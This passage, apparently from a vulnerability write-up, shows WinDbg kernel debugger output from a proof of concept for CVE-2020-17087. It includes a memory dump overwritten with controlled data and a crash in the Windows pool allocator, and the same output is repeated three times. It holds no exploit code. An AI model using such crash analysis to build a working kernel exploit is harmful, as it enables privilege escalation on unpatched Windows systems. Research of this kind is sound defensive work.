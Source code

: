 0: kd> db ffff810b`6dcf5000 - 0n16

ffff810b`6dcf4ff0 34 00 31 00 20 00 34 00-31 00 20 00 34 00 31 00 4.1. .4.1. .4.1.

0: kd> db ffff810b`6dcf5000 - 0n16 ffff810b`6dcf4ff0 34 00 31 00 20 00 34 00-31 00 20 00 34 00 31 00 4.1. .4.1. .4.1.

```
0: kd> db ffff810b`6dcf5000 - 0n16
ffff810b`6dcf4ff0  34 00 31 00 20 00 34 00-31 00 20 00 34 00 31 00  4.1. .4.1. .4.1.

```

Or crashing trying to read from an address that doesn’t exist but points to my data:

CONTEXT: fffff80422182920 -- (.cxr 0xfffff80422182920)

rax=0031003400200031 rbx=0000000000000001 rcx=00000000f27e7ffd

rdx=0031003400200031 rsi=ffffae0feebecfe0 rdi=ffffae0feebe7000

rip=fffff8041d2d17c0 rsp=ffff85045597ee70 rbp=ffffae0fe6602280

r8=0000000004060002 r9=412fae0e1b5fe029 r10=0000000000000000

r11=ffffae0fe6602290 r12=0000000000000000 r13=0000000000000000

r14=ffffae0feebece10 r15=0000000000000003

iopl=0 nv up ei pl nz na pe nc

cs=0010 ss=0018 ds=002b es=002b fs=0053 gs=002b efl=00050202

nt!RtlpHpVsFreeChunkInsert+0x170:

fffff804`1d2d17c0 8b4af8 mov ecx,dword ptr [rdx-8] ds:002b:00310034`00200029=????????

PROCESS_NAME: CVE-2020-17087.exe

CONTEXT: fffff80422182920 -- (.cxr 0xfffff80422182920) rax=0031003400200031 rbx=0000000000000001 rcx=00000000f27e7ffd rdx=0031003400200031 rsi=ffffae0feebecfe0 rdi=ffffae0feebe7000 rip=fffff8041d2d17c0 rsp=ffff85045597ee70 rbp=ffffae0fe6602280 r8=0000000004060002 r9=412fae0e1b5fe029 r10=0000000000000000 r11=ffffae0fe6602290 r12=0000000000000000 r13=0000000000000000 r14=ffffae0feebece10 r15=0000000000000003 iopl=0 nv up ei pl nz na pe nc cs=0010 ss=0018 ds=002b es=002b fs=0053 gs=002b efl=00050202 nt!RtlpHpVsFreeChunkInsert+0x170: fffff804`1d2d17c0 8b4af8 mov ecx,dword ptr [rdx-8] ds:002b:00310034`00200029=???????? Resetting default scope PROCESS_NAME: CVE-2020-17087.exe

```
CONTEXT:  fffff80422182920 -- (.cxr 0xfffff80422182920)
rax=0031003400200031 rbx=0000000000000001 rcx=00000000f27e7ffd
rdx=0031003400200031 rsi=ffffae0feebecfe0 rdi=ffffae0feebe7000
rip=fffff8041d2d17c0 rsp=ffff85045597ee70 rbp=ffffae0fe6602280
 r8=0000000004060002  r9=412fae0e1b5fe029 r10=0000000000000000
r11=ffffae0fe6602290 r12=0000000000000000 r13=0000000000000000
r14=ffffae0feebece10 r15=0000000000000003
iopl=0         nv up ei pl nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00050202
nt!RtlpHpVsFreeChunkInsert+0x170:
fffff804`1d2d17c0 8b4af8          mov     ecx,dword ptr [rdx-8] ds:002b:00310034`00200029=????????
Resetting default scope

PROCESS_NAME:  CVE-2020-17087.exe

```
